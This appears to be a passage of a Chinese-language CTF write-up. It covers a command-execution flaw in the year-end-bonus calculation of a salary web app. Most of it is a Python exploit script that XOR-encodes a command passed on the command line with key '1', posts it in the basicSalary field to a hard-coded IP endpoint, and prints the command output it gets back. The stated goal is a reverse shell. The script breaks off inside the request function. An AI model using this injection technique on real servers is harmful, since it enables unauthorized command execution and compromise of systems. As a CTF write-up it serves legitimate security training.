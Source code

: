  

在工资的年终奖分配计算那里存在命令执行

![img](./images/202406012237587.jpg)

写一个脚本进行反弹shell的操作

```python
import requests
from bs4 import BeautifulSoup
from urllib.parse import urlencode
import os

def xor_encrypt(plaintext, key):
    key_ord = ord(key)

    ciphertext = ""
    for char in plaintext:
        char_ord = ord(char)
        xor_result = char_ord ^ key_ord

        xor_result_char = chr(xor_result)

        ciphertext += xor_result_char

    return ciphertext

def print_ones(plaintext_length):
    return "1" * plaintext_length

def main():
    plaintext = os.sys.argv[1]
    key = "1"  # 00110001 是字符 '1' 的ASCII码

    ciphertext = xor_encrypt(plaintext, key)
    ones = print_ones(len(plaintext))
    result = req(ciphertext, ones)
    lines = result.split("\n")[1:]
    print("cmd: " + plaintext)
    index = lines[0].find(plaintext)
    lines[0] = lines[0][index + len(plaintext) :]
    result = "\n".join(lines)
    print(result)

def req(basicSalary, performanceCoefficient):
    url = "http://101.200.138.180:60000/gongzi_iscc.php"

    payload = urlencode(
        {
            "basicSalary": basicSalary,
            "performanceCoefficient": performanceCoefficient,
            "calculate": "",
        }
```